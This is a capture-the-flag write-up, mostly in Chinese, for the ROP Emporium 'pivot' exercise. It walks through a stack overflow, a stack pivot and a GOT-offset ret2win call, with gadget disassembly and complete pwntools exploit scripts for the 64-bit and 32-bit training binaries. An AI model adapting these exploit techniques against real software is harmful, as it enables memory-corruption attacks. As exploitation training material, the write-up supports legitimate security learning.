via：https://ropemporium.com/challenge/pivot.html

# pivot

There's only enough space for a three-link chain on the stack but you've been given space to stash a much larger ROP chain elsewhere. Learn how to pivot the stack onto a new location.
Click below to download the binary.

[64bit](https://ropemporium.com/binary/pivot.zip) [32bit](https://ropemporium.com/binary/pivot32.zip)

## But why

To "stack pivot" just means to move the stack pointer elsewhere. It's a useful ROP technique and applies in cases where your initial chain is limited in size (as it is here) or you've been able to write a ROP chain elsewhere in memory (a heap spray perhaps) and need to 'pivot' onto that new chain because you don't control the stack.

### There's more

In this challenge you'll also need to apply what you've previously learned about the .plt and .got.plt sections of ELF binaries. If you haven't already read appendix A in the [beginner's guide](https://ropemporium.com/guide.html), this would be a good time. This challenge imports a function called foothold_function() from a library that also contains a nice ret2win function.

### Offset

The ret2win() function in the libpivot.so shared object isn't imported, but that doesn't mean you can't call it using ROP! You'll need to find the .got.plt entry of foothold_function() and add the offset of ret2win() to it to resolve its actual address. Notice that foothold_function() isn't called during normal program flow, you'll have to call it first to populate the .got.plt entry.

### x64

其实这个题目就是 ret2libc 类型的题目

`uselessFunction()` 里面调用了一个  `libpivot.so`  里面的一个函数：`foothold_function()` 

直接调用这个函数并没有什么用

逆向   `libpivot.so`   看， `foothold_function()` 就是一个，打印了 `"foothold_function(), check out my .got.plt entry to gain a foothold into libpivot.so"`



真正有用的是： `libpivot.so` 里面的 `ret2win`



但是 `pivot` 程序里面根本没有调用过这个函数，连 `plt` 都没有

因为系统开了 `ASLR` 和编译  .so 时都是加了 位置无关（`-fPIC`） 这个参数，这个参数依赖 `-PIE`，所以我们根本不可能通过逆向工程得到 `ret2win` 的地址

这个就涉及到 Linux 下面动态链接的 `PLT` 机制了

自己去看：https://www.jianshu.com/p/ceb0381acade 或者 https://ropemporium.com/guide.html

累，不想在这里讲延迟绑定机制

进入正题



只能输入 `0x40 Bytes` 的数据，而上面的 `ROP` 链长度已将超过了 `0x40 Bytes`

该怎么办，看到：





程序给出了一块 `0x100` 的空间

再看 ` usefulGadgets()`



```asm
                    ********************************************
                    *                 FUNCTION                 *
                    ********************************************
                    undefined usefulGadgets()
         undefined    AL:1      <RETURN>
                    usefulGadgets                     XREF[1]: Entry Point(*)  
   00400b00 58         POP     RAX
   00400b01 c3         RET
   00400b02 48 94      XCHG    RAX,RSP
   00400b04 c3         RET
   00400b05 48 8b 00   MOV     RAX,qword ptr [RAX]
   00400b08 c3         RET
   00400b09 48 01 e8   ADD     RAX,RBP
   00400b0c c3         RET
   00400b0d 0f 1f 00   NOP     dword ptr [RAX]

```

看到 `pop rax; ret`

 `xchg rax,rsp; ret`

能操作 `rsp`，可以把栈转移到 `malloc` 分配的那块内存那里，这样就有足够的空间放置 `ROP` 链

其实思路是这样的：

第一次输入，是往 参数 `param_1` 指向的内存那里去写的，可以有 `0x100 Bytes` 的空间，我们先构造好的 `ROP` 链放在这里

第二次输入，利用栈溢出，把栈转移到 `param_1` 指向的内存那里去，从这里开始执行 `ROP` 链

payload：

```python
# _*_ coding=utf-8 _*_
from pwn import *

p = process("./pivot")
pivot = ELF("./pivot")
libpivot = ELF("./libpivot.so")

foothold_function_got = pivot.got["foothold_function"]
foothold_function_plt = pivot.plt["foothold_function"]
foothold_function_offset = libpivot.symbols["foothold_function"]
ret2win_offset = libpivot.symbols["ret2win"]

p.recvuntil("pivot: ")
ropchain = int(p.recv(14), 16)
print(hex(ropchain))

pop_rax_ret = 0x00400b00
xchg_rax_rsp_ret = 0x00400b02
mov_rax_memRax_ret = 0x400b05
pop_rbp_ret = 0x400900

add_rax_rbp_ret = 0x400b09
call_rax = 0x40098e

exp = "A" * 0x28
exp += p64(pop_rax_ret) # 把程序分配的那块内存的地址放到 rax 里面
exp += p64(ropchain)
exp += p64(xchg_rax_rsp_ret) # 交换 rax 和 rsp 的值，也就是说执行完这一句程序给我们分配的那块内存就被当成栈，栈顶是 foothold_function 的 plt，所以 ret（相当与 pop rip）执行的时候相于调用了 foothold_function

rop = p64(foothold_function_plt) # 放 foothold_function 的 plt，这里会 调用 foothold_function，这个调用过程会解析 foothold_function 的线性地址，然后把它写入 got 表
rop += p64(pop_rax_ret) # 获得 foothold_function 的 got 地址
rop += p64(foothold_function_got)
rop += p64(mov_rax_memRax_ret) # 取出 got 地址指向的地址，这个地址就是 foothold_function 的真正的线性地址
rop += p64(pop_rbp_ret) # 把 ret2win 与 foothold_function 在 libpivot.so 的相对偏移放进 rbp
rop += p64(ret2win_offset - foothold_function_offset)
rop += p64(add_rax_rbp_ret) # 因为 rax 上面存的是 foothold_function 的线性地址，加上 相对偏移 就能得到 ret2win 的线性地址
rop += p64(call_rax) # call ret2win

p.sendline(rop)
p.sendline(exp)
p.interactive()
```

`ROP` 汇编（省去 `_dl_runtime_resolve_xsave`）：

```asm
   0x400ae1       <pwnme+166>                    ret    
    ↓
   0x400b00       <usefulGadgets>                pop    rax
   0x400b01       <usefulGadgets+1>              ret    
 
   0x400b02       <usefulGadgets+2>              xchg   rax, rsp
   0x400b04       <usefulGadgets+4>              ret    
    ↓
   0x400850       <foothold_function@plt>        jmp    qword ptr [rip + 0x2017f2] <0x602048>
    ↓
   0x7f8f512ef987 <foothold_function+23>    ret    
    ↓
   0x400b00       <usefulGadgets>           pop    rax
   0x400b01       <usefulGadgets+1>         ret    
    ↓
   0x400b05       <usefulGadgets+5>         mov    rax, qword ptr [rax]
   0x400b08       <usefulGadgets+8>         ret
    ↓
   0x400b09 <usefulGadgets+9>     add    rax, rbp
   0x400b0c <usefulGadgets+12>    ret    
    ↓
   0x40098e <frame_dummy+30>      call   rax <0x7f8f512efabe>
```

动态调试跟一下吧：

溢出：



成功设置 `rax` 的值



把 `rsp` 指向那个地址，达到转移栈的目的



下一条就是 `ret` ，执行这个指令的时候相当与 `pop rip`,现在 `rsp` 指向 `foothold_function` 的 `plt`，执行 `ret` 相当于调用 `foothold_function` （可以那么说吧，这个也不太正确，因为正常的调用会改变 `rsp `再改变 `rip`，这个只是改变了 `rip`）



成功跳到 `foothold_function`，然后就是 `_dl_runtime_resolve_xsave` 去解析 `foothold_function` 的线性地址，把它写入 `got` 表，再执行真正的 `foothold_function` 函数体



好了现在写入 `got` 表了

继续执行

到 `payload` 中的

```python
rop += p64(pop_rax_ret) # 获得 foothold_function 的 got 地址
rop += p64(foothold_function_got)
rop += p64(mov_eax_memEax_ret) # 取出 got 地址指向的地址，这个地址就是 foothold_function 的真正的线性地址
```



成功把 `foothold_function` 的线性地址放入 `rax`

接着执行

```python
rop += p64(pop_rbp_ret) # 把 ret2win 与 foothold_function 在 libpivot.so 的相对偏移放进 rbp
rop += p64(ret2win_offset - foothold_function_offset)
```

把 相对偏移量放入 `rbp` 里面



看到了吗，`$rax + $rbp` 就是 `ret2win`

执行到

```python
rop += p64(add_rax_rbp_ret) # 因为 rax 上面存的是 foothold_function 的线性地址，加上 相对偏移 就能得到 ret2win 的线性地址
rop += p64(call_rax) # call ret2win
```



相当与 `call ret2win`



pwn!


### x86

一样的思路





一样的，空间不够需要把 `ROP` 链放在 `param_1`

在 `usefulGadgets() `中



```asm
                    ********************************************
                    *                 FUNCTION                 *
                    ********************************************
                    undefined usefulGadgets()
         undefined    AL:1      <RETURN>
                    usefulGadgets                     XREF[1]: Entry Point(*)  
   080488c0 58         POP     EAX
   080488c1 c3         RET
   080488c2 94         XCHG    EAX,ESP
   080488c3 c3         RET
   080488c4 8b 00      MOV     EAX,dword ptr [EAX]
   080488c6 c3         RET
   080488c7 01 d8      ADD     EAX,EBX
   080488c9 c3         RET
   080488ca 66 90      NOP
   080488cc 66 90      NOP
   080488ce 66 90      NOP
```

完全一样的思路，看上面的 `x64` 吧

payload：

```asm
# _*_ coding=utf-8 _*_
from pwn import *

p = process("./pivot32")
pivot = ELF("./pivot32")
libpivot = ELF("./libpivot32.so")

foothold_function_got = pivot.got["foothold_function"]
foothold_function_plt = pivot.plt["foothold_function"]
foothold_function_offset = libpivot.symbols["foothold_function"]
ret2win_offset = libpivot.symbols["ret2win"]

p.recvuntil("pivot: ")
ropchain = int(p.recv(10), 16)
print(hex(ropchain))

pop_eax_ret = 0x080488c0
xchg_eax_esp_ret = 0x080488c2
mov_eax_memEax_ret = 0x080488c4
pop_ebx_ret = 0x08048571

add_eax_ebx_ret = 0x080488c7
call_eax = 0x080486a3

exp = "A" * 0x2c
exp += p32(pop_eax_ret) # 把程序分配的那块内存的地址放到 rax 里面
exp += p32(ropchain)
exp += p32(xchg_eax_esp_ret) # 交换 eax 和 esp 的值，也就是说执行完这一句程序给我们分配的那块内存就被当成栈，栈顶是 foothold_function 的 plt，所以 ret（相当与 pop eip）执行的时候相于调用了 foothold_function

rop = p32(foothold_function_plt) # 放 foothold_function 的 plt，这里会 调用 foothold_function，这个调用过程会解析 foothold_function 的线性地址，然后把它写入 got 表
rop += p32(pop_eax_ret) # 获得 foothold_function 的 got 地址
rop += p32(foothold_function_got)
rop += p32(mov_eax_memEax_ret) # 取出 got 地址指向的地址，这个地址就是 foothold_function 的真正的线性地址
rop += p32(pop_ebx_ret) # 把 ret2win 与 foothold_function 在 libpivot.so 的相对偏移放进 ebx
rop += p32(ret2win_offset - foothold_function_offset)
rop += p32(add_eax_ebx_ret) # 因为 eax 上面存的是 foothold_function 的线性地址，加上 相对偏移 就能得到 ret2win 的线性地址
rop += p32(call_eax) # call ret2win

gdb.attach(pidof(p)[0])
p.sendline(rop)
p.sendline(exp)
p.interactive()
```

这个 payload 还是直接复制，然后改了 `gadget` 的地址，和这里用来存 相对偏移量的是 `ebx` 而不是 `rbp`，其他的没有区别



pwn!